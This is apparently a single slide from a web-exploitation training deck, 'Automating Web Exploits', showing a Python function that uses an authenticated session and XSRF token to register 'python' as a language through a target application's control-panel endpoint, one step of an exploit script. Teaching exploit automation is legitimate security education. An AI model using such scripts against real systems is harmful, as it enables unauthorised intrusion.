

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a language (cont.)
def add_new_lang(target_url, s):
    ...
    # If not, we will add it as "python"
    language_name = "python"
    data_json = {"name": language_name,
            "dir": language_name,
            "logo": SAMPLE_IMAGE_BASE64
            }
    res = s.post(target_url + "/controlpanel/languages/new",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            json=data_json, proxies=PROXIES)
    res = res.json()
    if("language has been added to the system successfully" == res["description"]):
        print("[*] Python has been added successfully as a Programming language!")
        return res["id"]
    else:
        print("[-] Failed to add Python as a Programming language :(!")
        sys.exit(-1)
27